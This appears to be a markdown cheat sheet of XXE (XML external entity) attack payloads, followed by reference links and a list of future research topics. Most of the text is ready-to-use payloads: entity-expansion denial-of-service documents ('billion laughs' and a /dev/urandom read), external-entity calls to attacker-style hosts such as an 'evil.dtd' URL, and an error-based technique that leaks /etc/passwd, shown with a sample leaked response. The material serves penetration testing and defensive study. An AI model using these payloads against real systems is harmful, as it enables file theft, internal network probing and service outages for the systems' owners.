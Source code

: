# Payloads:

#### Simple Example

```
<?xml version="1.0"?>
<!DOCTYPE example SYSTEM "example.dtd" [
  <!ENTITY xml "Extensible Markup Language">
]>
<example> &xml; </example>
```

#### DOS

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa...">
]>
<boom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...</boom>

<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol1 "&lol2;">
  <!ENTITY lol2 "&lol1;">
]>
<lolz>&lol1;</lolz>

<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "file:///dev/urandom">  <!-- or /dev/random -->
]>
<root>&external;</root>
```

#### General Entity External Request Test

```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "http://x.x.x.x:443/test.txt">
]>
<root>&external;</root>
```

#### Parameter Entity External Request Test

```
# Ref: https://github.com/lsh123/xmlsec/issues/43
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % external SYSTEM "http://192.168.3.1/evil.dtd"> %external;
]>
```

### Extraction via Error Response

In the case where the web server displays an error, try to dump contents using the error response:

```
# Ref: https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 '<!ENTITY % external SYSTEM "file:///nothere/%payload;">'> %param1; %external;

# Example response
<?xml version="1.0" encoding="UTF-8"?><root>
<errors>
<errorMessage>java.io.FileNotFoundException: file:///nothere/root:x:0:0:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

# Useful Links:

* Definitions:
  * [DTD Overview](http://www.informit.com/articles/article.aspx?p=24992&seqNum=5)
  * [General Entity & Parameter Entity Declarations](http://xmlwriter.net/xml_guide/entity_declaration.shtml)
  * [Attack Overview](https://www.owasp.org/images/5/58/XML_Based_Attacks_-_OWASP.pdf)
  * [Compendium of Known Techniques](https://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf) - details of platform impelementations
  * [Basic how to white paper](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)

* Payloads:
  * [20+ DTD Cheat Sheet payloads](https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html)
  * [~10 XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

# Future Research:

* SSRF - Server Side Request Forgery
* XML Schema Poisoning
* Schema SSRF
* XPath Injection
* NDATA - how does this work?
* Modify Content-Type header: `Content-Type: application/xml`
* Exfil via encoding / base64?
